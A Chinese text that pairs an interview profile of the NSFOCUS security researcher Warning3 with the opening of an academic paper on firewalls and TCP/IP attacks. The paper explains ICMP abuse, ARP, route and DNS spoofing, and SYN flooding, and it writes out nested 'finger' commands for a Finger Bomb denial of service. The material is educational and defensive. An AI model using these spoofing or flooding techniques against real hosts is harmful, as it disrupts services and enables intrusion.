关于系统安全漏洞问题，客观公正地讲，微软 Windows 系统在设计上也是相当出色的，但之所以出现漏洞问题，原因是比较多的，比如其所运行的硬件环境相对于 UNIX 系统要杂一点，也要求低一点，而作为商业操作系统，其源代码的不公开性反而更激发了“黑客”的好奇心与挑战欲望，加之企业应用也比较广泛，在其上开发的各类商业实际应用程序也多，比如 IE 若存在问题就会直接威胁到 Windows 系统的安全。基于这些原因，Windows 受攻击的几率也就更大一些。更糟糕的是，一旦其系统漏洞被攻击者发现与控制掌握，攻击者往往并不通知微软，使其身处危情仍浑然不知，以至不能及时对外发布系统漏洞公告及补丁程序，并采取升级等补救防范措施。相对而言，UNIX 也有漏洞，但由于其内核代码（部分商业版 UNIX 除外）是开放的，漏洞被发现后，全球具有开发能力的 UNIX 专业人士及爱好者都可以加入到编译修补改进的行列中来，大家都可以自发地贡献自己的力量，从而基本上能够做到漏洞随出随补。同时，大家都知道在 UNIX 系统上开发的商业应用要比 Windows 少，这也从另一个方面为 UNIX 减少了漏洞产生的几率。但 UNIX 肯定也不是铁板一块，仅我个人发现的漏洞已有不少，最近 SUN 公司 Solaris 方面比较严重的溢出漏洞就又有发现，所以总体来说，以我个人的研究经验感觉 UNIX 与 Windows 这两大主流操作系统的漏洞存在几率是大体相同的，差不了太多。

就两大主流操作系统的未来发展趋势而言，我认为不会存在谁被谁击败或取代的问题，这也是由两种系统各自不同的特性与优势以及不同用户的需求决定的，且在过去的时间里二者的竞争历史也说明了这一点。不过在 UNIX 之后出现了现在势头很盛的 LINUX，作为 UNIX 的一种演化派生物，LINUX 的出现从某种意义上讲加大了 UNIX 这种操作系统体系的应用比率与技术优势，同时也对 Windows 提出了更有力的挑战。对于国外用户来说，由于信息化历史上的使用习惯以及语言上的因素，接受起 UNIX 与 LINUX 来很快很方便，而相对国内用户，却存在中文化方面的滞后等问题，比如现在市场上可以看到的各类 LINUX 中文版其联机帮助信息却还是英文的，这就给国内用户的使用和学习带来一定的不便。当然，基于 UNIX 与 LINUX 上的应用开发也是一个问题，可喜的是现在国内外一些知名的软件企业厂商已越来越意识到这个问题，也已纷纷推出了自己基于 UNIX/LINUX 的商业应用，相信 UNIX/LINUX 的未来发展前景还是光明的，但这同时也对我们从事这一系统网络安全研究的人提出了更高的要求。”

国内有一个比较知名的 UNIX 技术专业网站，叫“永远的 UNIX”，我很喜欢这个名字，因为它充分表达了一种执着与永恒的信念。在这个站点上有大量 Warning3 的原创大作，我以为，UNIX 这一古老经典的操作系统正需要更多 Warning3 这样青年才俊的智慧不断“更新”与“升级”，才能永葆其不朽魅力。

### 绿盟——有着绿色般希望的同道者联盟

采访中我向 Warning3 提了这样一个问题：

“众所周知，现代企业的竞争说到底还是人才的竞争，绿盟何以能将诸多你与袁哥这样的国内顶尖网络安全人才聚集在旗下呢？”

Warning3：“我觉得首先就是大家都一致看好网络安全这个行业的发展前景，从而也就对公司发展的大方向有信心。再有就是一种非常和谐融洽的工作环境与企业文化氛围，有了这些大前提，再加上有沈总他们这样好的企业领导管理层与科学先进的现代企业管理机制，大家有缘聚在一起成就一番事业也就是一个顺理成章的事情。你可能也听说过绿盟初创阶段在暂时资金周转困难的情况下一度暂停发了员工三个月的工资，但为什么大家都没走，同心同德的一起走到了今天？因为大家都有一个共识，就是对企业发展前景的一致看好，上上下下都有一个长远眼光和信心，资金的暂时紧张是有一定原因的，也是企业发展过程中的正常现象，短期的困难终是能克服的。我还想强调一点的是，大家都非常珍惜这里和谐的人际关系与工作氛围，99 年创业初期我们只有十几个人，原先大家基本都不认识，但相处几天就感觉像老朋友一样亲切自然与和谐，我们这些做技术出身的人彼此之间在技术方面的交流是非常密切的，不搞技术研究的人不会知道，这种交流有多么重要，很多新鲜独特的想法每天都会产生，这对提高自己的技术水平很有帮助，别人的经验和长处也许就是你自己欠缺与急需的。你比如说，我和袁哥研究的技术领域不同，但是他研究 Windows 时的一些角度与思路或许对我在 UNIX 分析方面也可能有所启发，反之亦然。我们研究部的人现在或定期在一起开个小型的交流会，或者会随时随地就技术问题聊一聊，可以说在绿盟这个环境中以技术交流促进共同提高也形成一种员工的自发行为，这种情况在别的公司是什么样我不好说，我只是觉得绿盟这方面环境可能是最好的。现在公司人员壮大早已今非昔比，且还在吸引更多的人才加入进来，这样可交流的人又增加了，其实绿盟的人气也就是这么聚集起来的。我觉得良好的技术交流与发展环境，就是最吸引人加入到绿盟的重要原因吧，所以说假使面临跳槽的选择，我一定会非常看重这一点，如果没有比绿盟更好的技术交流与发展环境那又何必呢？”

Warning3 的话让我越发感受到了绿盟企业凝聚力的能量，如果说以前与网络安全圈内的朋友聊天对“绿盟人心很齐”之说“耳闻是虚”，那么今天采访 Warning3 应算是“眼见为实”了吧。联想起“绿盟”这个特点鲜明的企业名称，感觉此名当初的创意是否也有这样一层含意：所谓绿盟，就是“有着绿色生命般希望的志同道合者的联盟”？

一个人的智慧与能力终究是有限的，好比单片机，而团队的力量聚集起来能量则是巨大的，如同多处理器并行服务器！

### 书生左磊——采访札记

见左磊的第一面，其外表就给我以过目不忘的深刻印象，这倒不是因为他有很“另类”的身形与五官，相反，倒是他从头至脚一副脸谱化的典型知识分子外型给了我很强的视觉冲击，体形瘦削，皮肤白皙，气质儒雅，镜片后的目光沉静，那种似乎触手可及、扑面而来的书卷气息会让你觉得与此公交流自己务必礼数周全，粗俗造次不得。其实这倒与我心目中网络奇才的外形“模板”之一非常相符。确切地说，他的外形更易让我联想到高等学府的莘莘学子或科研院所里的谦谦学者，与时下网络时代年轻人中较流行的带有极端倾向的另类个性与时尚相比，他的外形与气质都透着正统与保守。

从南下合肥“中科大”求学，到就职于烟台“东方电子”，直至最后加入“绿盟”，他的生活工作轨迹要比他在网络安全领域求知探索的历程简单许多。身为济南人，外表白皙文弱的 Warning3 完全不像人们传统印象中的山东大汉，但他们仍有着山东人典型的健谈与直爽，无论是怎样的话题，在他永远温和沉静的语气里，任何与之交流的人都能感到闲庭信步般的轻松随意，只要你简短地提出问题或开启一个话题，他便可以很准确地围绕主题，条理清楚地娓娓道来，还会适当地引申开来。在这样一位“牛人”身上你找不到一点“牛气”，可能还会让你产生“原来也不过如此”的错觉。当然，这错觉的前提是避开网络安全技术，一旦涉及技术，你会知道什么是曲高和寡与独孤求败。

对于 Warning3 这样的“唯技术论者”，我主观地揣测他一定过着漠视世俗娱乐的学究夫子式的生活，而得到的答案并没太出乎意料。刚来北京后，有半年时间 Warning3 天天在公司里待着，哪儿也没去玩过，后来还是在公司同事的带动下，业余生活稍微丰富了一点，偶尔与同事朋友在茶余饭后唱唱歌或者看看电影。令我有点意外的是文质彬彬的 Warning3 还是个“摇滚”爱好者，当然也不局限于此，好听的音乐他都来者不拒。他还爱看一些球类电视节目，并戏称自己是“伪球迷”，不懂却爱看，看完更不练，偶尔有兴致挥两下乒乓球拍，但屡战屡败，于是又试着从羽毛球拍中找回信心，孰料两个回合下来便体力不支。从此，在每天下班后公司附近的昆玉河畔，就可见到“绿盟长跑队”里 Warning3 的纤瘦身影。至于这种训练的效果如何，还有待时间考证。周六周日对 Warning3 来讲是真正意义上的双休日，更确切地说是睡觉日，一觉醒来必是中午时分，把一周没睡足的觉都补回来了；下午处理一下卫生及私人事务，间或出门转转，一周的生活也可谓有张有弛了。虽不好说好动，但 Warning3 还是有一个未了心愿，那就是渴望到中国著名自然风景区“九寨沟”一游，他说是“九寨沟”的风景照片带给他的视觉震撼，使他对这个列入世界自然生态保护计划的“人间仙境”迫切神往。说到这个话题，Warning3 显得兴致勃勃，甚至超过了谈 UNIX。由此我感到，人的潜在生活情趣其实很丰富，之所以有的人显得兴趣广泛，有的人看起来单调乏味，无外乎是性格、修养、爱好、客观环境及物质条件等因素造成的。以时下爱玩也会玩的时尚一族的标准看，Warning3 的生活方式未免单一，但有道是“君子欲有所为必有所不为”，人的时间与精力总是有限的，游山玩水与纵歌豪饮都是费时费力的事情，这些业余“进程”会占用不少的科研“系统内存资源”，权衡一下，以事业为重也是自然的，所以只能说 Warning3 玩的时间、精力与兴趣少一些，而不能说他不会玩或不懂享受生活。

人如其名，Warning3 是网络安全圈内一个富于同情心与责任感的警示者，看他的技术文章，可以从他的智慧与才学中受益，与他进行交流则更能补充一些人格魅力的东西，特别对那些视 Warning3 为偶像的少年网络安全爱好者们，他可以让他们明白：原来网络安全技术的成功之路并非孤独寂寞与痛苦锻就，既想出风头又怕吃苦的人选择这条路是最大的错误；原来用别人开发的黑客工具“黑”几台肉鸡是这么的无聊与幼稚；原来这个领域学无止境又高手云集，穷尽皓首也只修得沧海一粟，原来……一旦懂得了这些“原来”，也就从本质上缩短了与偶像在思想境界上的距离，而赶超偶像的路则只能靠自己一步步脚踏实地地踩出！

这也算是习惯了发“警告”的 Warning3 发出的一个“敬告”吧：由衷地希望所有有志于网络安全事业的追梦少年们一路走好。

### 摘要

防火墙（Firewall）是因特网技术的最新发展之一。近年来网络安全问题日益复杂和突出，促使网络安全技术的研究与应用获得长足的进展。但是，网络系统的脆弱性仍然广泛存在，时常面临各种攻击与威胁。试图完全杜绝网络侵害显然不够现实，而防火墙是一种行之有效的网络安全机制，它是在内部网与外部网之间实施安全防范的系统。目前，虽然还没有哪一种安全机制可完全确保网络的安全，但建造自己的防火墙无疑会给自己的网络带来很大的好处。

本文在简要分析网络安全及网络攻击有关问题的基础上，首先对网络防火墙技术在理论上进行了系统的研究，深入分析了当前的各种防火墙技术。主要包括：包过滤、网络地址转换、应用级代理等，着重分析了各种防火墙技术的优、缺点及适用特性，进而对 LINUX 环境下的 IPchains 防火墙进行了深入的分析，并在此基础上为大学校园网中的 IPchains 防火墙的运用提出了简单的安全策略。最后在理论研究的基础上，实现了交互式 IPchains 的应用。

### 网络防火墙技术研究

#### 一、绪论

##### 1.1 引言

计算机网络在当前科技生产、社会生活的各个领域掀起了一场革命。随着网络技术的飞速发展和广泛应用，网络规模日益庞大、结构更为复杂、影响空前深远。与此同时，网络系统的安全问题也日益复杂和突出，网络系统的安全性关系到整个网络建设的成败。

为确保网络系统的安全性，人们研究并使用了多种解决方法，特别是近年来，由于对安全问题的广泛关注，网络安全技术的开发应用取得了长足的发展。但是，它仍然滞后并制约着网络应用的进一步发展。Spafford 的一项报告显示：1995 年—2000 年五年间，“黑客”事件的发生增加了 400%，仅在美国就造成了 150 亿美元的损失，而且目前这种情况还在加剧。同类事件在我国也是逐年增多。这足以说明当今的网络安全问题，尤其是较大型的网络系统，有必要建立一个堪称完整的安全体系。从空间上，它包括网络内安全、网关或网际以及外部安全的统一；从时序上，应当有事前防御、即时防御及事后审查三者的结合。而防火墙是一种非常有效的网络安全防范技术，它是因特网技术的最新发展之一。

##### 1.2 为什么要用防火墙

在 20 世纪 80 年代中期，网络卫士随着信息战争威胁的萌芽应运而生了。诸如 Compaq 和 IBM 这样的计算机销售商从不完善的安全系统中开发了防火墙，这些大公司使用防火墙来保证他们自己网络的安全。过去的安全问题可以使用简单的包过滤器或者回拨调制解调器存储区解决。未来的安全问题将需要快速浏览并验证因特网信息中的每个字节，需要在连接上网前加密并进行真实的身份认证，还要加密最近互相传输的任何东西。现在的安全问题几乎都可以使用防火墙和虚拟专用网来解决，所以说，在网络安全中采用防火墙技术是极为必要的，这是因为：

- 因特网是普遍依赖于 TCP/IP 协议的，这是一种在同种机型间的通信协议，它本身就很不安全。
- 因特网所提供的各种服务，如电子邮件、文件传输、远程登录、万维网等都存在着安全隐患。
- 因特网上使用了薄弱的认证环节：薄弱的、静态的口令；一些 TCP 或 UDP 服务只能对主机地址进行认证，而不能对指定的用户进行认证。
- 在因特网上系统容易被监视。
- 在因特网上存在着 IP 地址欺骗（伪装）。
- 有缺陷的局域网服务（NIS 和 NFS）和主机之间的信任机制带来风险。

间存在着有缺陷的相互信任关系。

特别是由于目前 Internet 无限宽广的发展前景，如电子商务等网络应用，充分表明进行防火墙技术理论研究和应用技术开发有着十分重要的意义。

在当前流行的操作系统中，虽然 Windows 操作系统拥有大量的用户，但是它存在着严重的安全问题和稳定性问题，而 Linux 在通信和网络功能方面优于其他操作系统。它为用户提供了完善的、强大的网络功能。完善的内置网络是 Linux 的一大特点，其他操作系统不包含如此紧密地和内核结合在一起的连接网络的能力，也没有内置这些联网特性的灵活性，并且 Internet 是在 Unix 领域中建立并繁荣起来的，在这方面使用 Linux 是相当方便的，用户能用 Linux 与世界上的任何人通过 Internet 网络进行通信。

Linux 采取许多安全技术措施，包括对读、写权限控制、带保护的子系统、审计跟踪、核心授权等，这为网络多用户环境中的用户提供了必要的安全保障。

##### 1.3 防火墙概述

防火墙被用来在内部网络的边界上建立安全检查点。通过在因特网和内部网络之间提供路由功能，防火墙检查所有在这两个网络间的通信，并根据这些通信是否匹配已编好的安全策略规则来决定通过或断开通信。

- 1. 防火墙的实现方法：

- (1) 包过滤功能（Packet Filtering）  
  拒绝接受从未授权的主机发送的 TCP/IP 包，并拒绝接受使用未授权服务的连接请求。

- (2) 网络地址转换功能（Network Address Translation, NAT）  
  转换内部主机的 IP 地址而使外部监视器无法探测到它们。NAT 也称为 IP 伪装（IP masquerading）。

- (3) 代理服务（Proxy Service）  
  代表内部主机进行高层应用连接，完全中断内部主机与外部主机的网络层连接。

防火墙是在内部网与外部网之间实施安全防范的系统，如图 1 所示。它可被认为是一种控制机制，用于确定哪些内部服务允许外部访问，以及允许哪些外部服务访问内部服务。

- 2. 防火墙的作用

- (1) 限制人们进入一个被严格控制的点。
- (2) 防止攻击者更接近其他的防御设备。
- (3) 限制人们离开一个被严格控制的点。

- 3. 防火墙的基本准则

- (1) 一切未被允许的就是禁止的。



图 1 防火墙把内部网与因特网隔开

基于该准则，防火墙应封锁所有信息流，然后对希望提供的服务逐项开放。

- (2) 一切未被禁止的就是允许的。

基于该规则，防火墙应转发所有的信息流，逐项屏蔽可能有害的服务。

- 4. 防火墙的基本类型有

- (1) 包过滤型（Packet Filter）  
  包过滤规则以 IP 包信息为基础，对 IP 源地址、IP 目标地址、封装协议（TCP/UDP/ICMP/IP Tunnel）、端口号等进行筛选。包过滤在 OSI 协议网络层进行。

- (2) 代理服务型（Proxy Service）  
  代理服务器防火墙通常由两部分组成，服务器端程序和客户端程序。与包过滤不同的是，内部网与外部网之间不存在直接的连接，同时提供日志（Log）及审计（Audit）服务。

- (3) 复合型（Hybrid）防火墙  
  把包过滤和代理服务两种方法结合起来，可以形成新的防火墙。

- (4) 其他防火墙  
  路由器和各种主机按其配置和功能可组成各种类型的防火墙。

#### 二、网络安全及网络管理

网络防火墙技术作为一个新的研究领域，主要是网络安全和网络管理的交叉与结合。下文从进行网络防火墙理论研究的基本需求出发，简要分析网络安全和网络管理的有关问题。

##### 2.1 TCP/IP 网络安全

TCP/IP 是 20 世纪 70 年代中期美国国防部（DOD）为其 ARPANET 广域网开发的网络体系结构和协议标准，普遍应用于当前的各类网络系统，是网络协议事实上的工业标准。基于 TCP/IP 的 Internet/Intranet 近几年来已经遭受到广泛的安全攻击和侵害。对 TCP/IP 网络的安全侵害主要利用现行 TCP/IP 协议集本身的缺陷或实现上的漏洞来进行。入侵者可能以主动攻击的方式与目标系统交换信息并试图影响其行为，包括修改和伪装数据流，对系统安全的危害可能非常严重；入侵者也可能仅仅被动地收集或监视目标系统的有关信息，主要对系统的保密性构成威胁。可以通过有效的加密方法和严格的访问控制加以防范。本文将对几类认知的、基于网际层与传输层的 TCP/IP 网络安全侵害进行分析。

- 1. ICMP 侵害分析

ICMP（Internet Control Message Protocol，国际控制报文协议）是关于 IP 差错与控制的协议，负责两台机器（主机、网关或路由器）上 IP 软件间的差错与控制报文，包括差错控制、拥塞控制和路径控制。ICMP 是 TCP/IP 协议集在 IP 层的重要组成部分。ICMP 报文被封装在 IP 数据报中，路由器或主机将自动地分析报文并做出相应的重新配置。ICMP 共定义了 11 种类型的报文，入侵主要利用其中的类型 3、4、5 ICMP 报文，通过滥用、发送伪装的、虚假的 ICMP 数据分组来危害 TCP/IP 网络系统。

- (1) 滥用“信宿不可达”报文

ICMP“信宿不可达”报文主要用于差错控制。一旦 IP 数据包不能被发送至预期的目标地址（信宿），则最后一个有效的路由系统就会将 ICMP“信宿不可达”报文信息返回给数据包的发送者（信源）。除数据包报头外，相关数据包中的 64 位数据也连同 ICMP 报文发送，这有助于发送者决定中断哪个连接，但有些 ICMP 工具不能分析 ICMP 数据分组的端口信息，就中断了两个相关主机之间的一切连接。入侵者通过不断地发送出诸如“需要分段和设置 DF”之类的报文信息，使大量的网络通信在很短的时间内被破坏。不仅如此，这一 ICMP 报文促使相关系统在发送数据前将数据分割成更小的数据包单元，从而增加了网络负荷，妨害系统的可用性。

- (2) 滥用“源抑制”报文

“源抑制”报文主要用于实现拥塞控制。网关系统常利用“源抑制”报文来减小发送站点的传输速率以防止或终止网络超载现象，同时，相关的接收站点也减小其接收速率直至接收不到进一步的“源抑制”报文。入侵者利用这一特点，通过过量地发送伪装“源抑制”报文，来引发严重的数据流阻塞并导致网络瘫痪。

- (3) 滥用“重定向”报文

ICMP“重定向”报文用于解决主机从网关（或路由器）获取寻径信息的问题，即实现路径控制。初始网关首先将主机连接到网络上，再通过最小路由选择信息来使其使用更理想的路径。同时，路由器本身被配置为免受 ICMP“重定向”报文干扰，并仅通过路由选择来建立连接。入侵者则会利用 IP 地址欺骗与“重定向”报文入侵网络和路由器来改变其使用的路径。一旦入侵者自由地建立了路径连接，顷刻之间就可发动对网络系统的极大破坏。

- 2. IP Spoofing 侵害分析

在 TCP/IP 网络中，采用信任主机是一项非常有用和方便的方案，但在实际应用中却又很容易受到攻击，这是因为信任主机方案的机制仅依赖于所用的 IP 地址。几乎所有的 IP Spoofing（哄骗）都利用了目标网络系统的信任关系。IP Spoofing 之所以能够奏效，也正是由于目标主机对处于同一网段内伙伴的过度信任所致。如在 UNIX 系统中，对于来自任何远程机器的 r 命令请求（rlogin、rcp、rsh 等），接收主机只检查发送者的 IP 地址是否与信任主机的 IP 地址匹配，如匹配便执行命令。

IP Spoofing 利用了该认证方式的弱点，入侵者将其主机 Intruder 伪装成目标主机 Target 所信任的伙伴主机 Friend，以此来达到欺骗目标主机 Target 的目的，目标主机将误以为 Intruder 是其可信的伙伴 Friend，从而允许 Intruder 进行敏感访问。常见的 IP Spoofing 多以 ARP Spoofing、Route Spoofing、DNS Spoofing 等形式表现出来。

- (1) ARP Spoofing 侵害分析

ARP（Address Resolution Protocol，地址解析协议）提供了网际层使用的 IP 地址到数据链路层所使用物理地址之间的映射关系。ARP 采用动态联编（dynamic binding）方式来解析对方的地址：假定主机 A 欲解析主机 B 的地址，A 首先广播一个 ARP 请求报文，报文中包含目的地址主机 B 的 IP 地址 Ib，以请求 IP 地址为 Ib 的主机答复其物理地址 Pb。网上所有的主机都将收到 ARP 请求，主机 B 将答复自己的物理地址 Pb。为提高解析效率，每台使用 ARP 的主机都有一个专用的缓冲区，用以保存 IP 地址——物理地址联编，并不断更新。

由于存入 ARP 缓冲区中的 IP 地址——物理地址联编，仅有几分钟的存留期，这就使得利用伪装、篡改 IP 地址——物理地址联编的 ARP Spoofing 侵害成为可能。入侵者可以盗用某一主机的 IP 地址，将被假冒的机器从网上断开或修改其合法 IP 地址。几分钟之后，缓冲区中原始输入的存留期一到，入侵者就可发动直接针对信任服务器的攻击和侵害。

- (2) Route Spoofing 侵害分析

路由选择是 IP 协议最重要的功能之一。在 TCP/IP 网络中，每个主机和路由器（在 TCP/IP 中称为网关）都保持一份路由选择表，并不断参与路由选择。到达一台机器网际层的每一数据包的信宿 IP 地址都将接受路由检查，以决定是发送到同一子网的某接口，还是转发到下一路由器。伪装和篡改路由选择表是一切 Route Spoofing 侵害实施的基础。当前的网络系统多采用动态的路由选择算法。基于 RIP（路由信息协议）的距离矢量路由选择算法是一种非常通用的动态路由选择算法。该算法让每一路由器维持一张表，表中给出了到每一目的地已知的最佳路由与相应的距离。RIP 将机器分为主动的和被动的两类。一个以主动方式运行 RIP 的路由器，每隔 30 秒广播一次包含 IP 地址的到该网最佳路径的信息，并通过与相邻路由器交换信息来更新路由选择表。而被动机器只能收听更新表的信息。只有路由器可以主动方式运行 RIP，主机只能使用被动方式。

一种常见的 Route Spoofing 侵害方式就是让 UDP（用户数据报协议）广播非法的路由信息（这可由任何有权使用 RIP 的 PC 用户来完成），此时所有被动参与者都会受到影响甚至误导。如果被动参与者中包含一个或更多的路由器，这种误导危害就会进一步传播和扩大。

- (3) DNS Spoofing 侵害分析

DNS（域名系统）是 TCP/IP 网络提供的一项基本应用服务。DNS 采用 Client/Server 模式，由域名服务器构成树型的层次结构。解析器利用这些协作的域名服务器进行域名——IP 地址映射。当某主机上的解析器软件需要将域名转换为 IP 地址时，它就会向 DNS 服务器发送一个 IP 地址查询请求；类似地，当需要将 IP 地址转换成域名时，便发送一个逆向解析查询请求。

当某个域名服务器上的查询数据表被伪装或篡改时，DNS Spoofing 侵害便会发生。因为在 Internet/Intranet 中，所有主机都会完全相信来自 DNS 服务器的应答，一个受到侵害的 DNS 服务器会误导并诱使客户和非法服务器建立连接，或者欺骗试图验证 IP 地址与信任客户域名是否对应的服务器。下面的例子描述了 DNS Spoofing 侵害的实施过程：

- 1. 域名为 intruder.com 的入侵者在目标主机 target.com 上查找 r 命令程序，在被侵害的 DNS 服务器 compromised.dns.com 上修改对 intruder.com 的逆向 DNS 输入，以冒充 target.com 所信任的某一主机 friend.com；

- 2. 当 intruder.com 请求与 target.com 建立信任连接时，target.com 根据收到的 IP 地址向 compromised.dns.com 发出一个逆向解析查询请求，得到已经 DNS Spoofing 过的“friend.com”域名，入侵者的非法连接得逞。

- 3. DoS 侵害分析

DoS（Denial of Service）侵害主要危及网络系统的可用性。攻击者或者试图毁坏系统资源使他人无法使用，或者过多地占用某些共享资源，耗费系统服务，妨碍合法用户享有服务。DoS 攻击是 Internet/Intranet 上最常见的安全侵害，其侵害原理就是利用了 IP 网关只对 IP 数据包的目的地址进行检查的弱点，伪装或盗用数据报的 IP 源地址。本节讨论三类 DoS 侵害。

- (1) Service Overloading 侵害分析

当 echo request 报文泛滥时，就会发生 Service Overloading（服务超载）。通常这类野蛮攻击会导致系统太忙而无法正常工作，于是许多 echo request 报文将会被丢弃；极端情况下，遭受服务超载攻击的主机甚至会崩溃。Finger Bomb 就是服务超载的一个典型例子。Finger 是一个收集某特定主机有关用户信息的程序（遵从 Finger 协议）。例如 John 在主机 victim.com 上有一个账号，john@victim.com 上的任何用户都可以执行下述命令来“Finger”John：

```text
Snoop>finger john@victim.com
Snoop>finger john@third.com@vitim.com
Snoop>finger john@..@..@victim.com
```

然而如果执行下面的命令：

```text
Snoop>finger john@...@...@victim.com
```

就使得 John 在 vitim.com 上又为 third.com 所“Finger”。因为 Finger 服务器容许嵌套的 Finger 请求，所以攻击者可以执行：循环 Finger 自己。如果在 victim.com 上 Finger 循环的次数足够多，则其内存、交换空间和硬盘空间最终被充满，从而导致机器崩溃。

- (2) Message Flooding 侵害分析

当入侵者试图通过降低网络工作效率以阻止其正常工作时，就会发动 Message Flooding（报文泛滥）攻击。Message Flooding 攻击通常都是直接指向认证服务器。受到 Message Flooding 攻击的认证服务器将变得不堪重负，无法响应来自用户的认证请求，这就可能让攻击者的机器轻易地注册到一个特权账号，伪装成合法的认证服务器，用大量的假冒信息应答认证请求。Message Flooding 攻击也可用来阻塞网络信道，譬如在两个用于提供标准 TCP/IP 服务器的端口之间产生无限的序列（如发送更换分组）。

- (3) TCP SYN Flooding 侵害分析

TCP 建立连接的“三次握手”过程，可能被入侵者滥用而引发一类非常危险的 DoS 攻击——TCP SYN（同步）Flooding 攻击。攻击者通过伪装从不同 IP 地址源发出的大量 TCP 连接请求到目标主机，却不完成 TCP 连接，即处于熟知的半开连接状态，从而导致目标主机的连接队列被占满而无法响应和完成合法的 TCP 连接。

在正常情况下，TCP 连接开始后，目标主机收到 TCP SYN 分组，发回 SYN ACK 确认报文；然后等待源主机对 SYN ACK 的确认 ACK 报文，只有当 SYN ACK 的 ACK 到达后，TCP 连接才能够完成。目标主机在有限的连接队列中记录连接等待完成的状态。对 SYN ACK 的 ACK 通常会在几秒内到达且很快被清空。但是如果攻击者冒充不同的 IP 地址向目标主机发送大量连接请求，目标主机有可能得不到对 SYN ACK 的 ACK，从而无法完成连接，只有通过超时才能将最早连接请求从队列中清除。这样，目标主机的连接队列很快被不能完成的 TCP 连接请求占满，致使正常 TCP 连接请求得不到响应。

##### 2.2 网络管理

网络管理是对网络系统进行控制维护、扩展优化、故障检修的持续过程。网络管理对系统安全的重要性显而易见：不管采用什么样的安全技术，系统的安全性只有通过有效的网络管理才能得以保障。在某种意义上，好的安全性就是好的网络管理。

按照不同的管理需要，ISO 对网络管理进行划分，定义了五个功能域：

- 失效管理：发现系统故障、分析故障原因，并尽可能修复故障；
- 配置管理：收集网络配置信息、控制、维护或改进网络的各项配置；
- 性能管理：监控网络设备及连接的当前使用情况（利用率、出错率等），确保系统的有效性；
- 安全管理：保障网络系统的整体安全性，特别是保护系统敏感信息的保密性和完整性；
- 计费管理：跟踪用户对网络资源的使用情况，对其收取合理费用，以维持网络的运行和发展。

ISO 对网络管理的这种划分，使得各个功能域之间存在大量的交错重叠，并没有严格的界限。要实现有效的安全，必然涉及性能管理、配置管理以及失效管理的大量内容。本文在第五章所设计的网络防火墙系统即是如此。

安全管理中极其重要的内容涉及到诸多复杂因素，是一项有相当难度的工作。单就技术性方面，依据 OSI 安全体系结构，可分为系统安全管理、安全服务管理和特定的安全机制管理。后两类主要是针对涉及某种特定、具体的安全服务与安全机制的管理；而系统安全管理则又包括总体安全策略的管理（维护与修改）、事件处理管理、安全恢复管理以及同其他两种安全管理的交互与协调。其中，防火墙安全管理与事件处理管理、安全恢复管理密切相关。

#### 三、当代主要防火墙技术

##### 3.1 防火墙的主要功能

- 1. 网络安全的屏障

防火墙可通过过滤不安全的服务而减低风险，极大地提高内部网络的安全性。由于只有经过选择并授权允许的应用协议才能通过防火墙，所以网络环境变得更安全。防火墙可以禁止诸如不安全的 NFS 协议进出受保护的网络，使攻击者不可能利用这些脆弱的协议来攻击内部网络。防火墙同时可以保护网络免受基于路由的攻击，如 IP 选项中的源路由攻击和 ICMP 重定向路径。防火墙能够拒绝所有以上类型攻击的报文，并将情况及时通知防火墙管理员。

- 2. 强化网络安全策略

通过以防火墙为中心的安全方案配置，能将所有安全软件（如口令、加密、身份认证等）配置在防火墙上。与将网络安全问题分散到各个主机上相比，防火墙的集中安全管理更经济。例如，在网络访问时，一次一密口令系统和其他的身份认证系统完全可以不必分散在各个主机上，而是集中在防火墙。

- 3. 对网络存取和访问进行监控审计

由于所有的访问都必须经过防火墙，所以防火墙就不仅能够制作完整的日志记录，而且还能够提供网络使用情况的统计数据。当发生可疑动作时，防火墙能进行适当的报警，并提供网络是否受到监测和攻击的详细信息。另外，收集一个网络的使用和误用情况也是一项非常重要的工作。这不仅有助于了解防火墙的控制是否能够抵挡攻击者的探测和攻击，了解防火墙的控制是否充分有效，而且有助于做出网络需求分析和威胁分析。

- 4. 防止内部信息的外泄

